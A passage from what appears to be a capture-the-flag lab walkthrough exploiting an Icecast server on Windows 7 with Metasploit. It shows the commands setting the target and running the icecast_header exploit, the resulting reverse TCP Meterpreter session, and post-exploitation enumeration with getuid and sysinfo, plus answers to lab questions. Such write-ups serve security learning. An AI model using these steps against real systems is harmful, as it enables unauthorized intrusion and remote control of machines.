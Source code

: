 >   
>    LPORT     4444             yes       The listen port

=> RHOSTS
  
  #### Let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`.
  
  `msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.105.232`

  `msf5 exploit(windows/http/icecast_header) > exploit`

> [*] Started reverse TCP handler on 10.10.203.123:4444 
>  
> [*] Sending stage (176195 bytes) to 10.10.105.232
>  
> [*] Meterpreter session 1 opened (10.10.203.123:4444 -> 10.10.105.232:49201) at 2022-08-03 21:40:22 +0100
> 
> meterpreter > 

### Task 4 : Escalate
  
  #### We've gained a foothold into our victim machine ! What's the name of the shell we have now ?
  
  meterpreter
  
  #### What user was running that Icecast process ?
  
`meterpreter > getuid Icecast`

  > Server username: Dark-PC\Dark
  
  #### What build of Windows is the system ?
  
From NMAP output, we know it is 7601.
  
  Otherwise, using meterpreter : `sysinfo`
  
> Computer        : DARK-PC
> 
> OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
> 
> Architecture    : x64
> 
> System Language : en_US
> 
> Domain          : WORKGROUP
> 
> Logged On Users : 2
> 
> Meterpreter     : x86/windows
  
  #### What is the architecture of the process we're running ?
  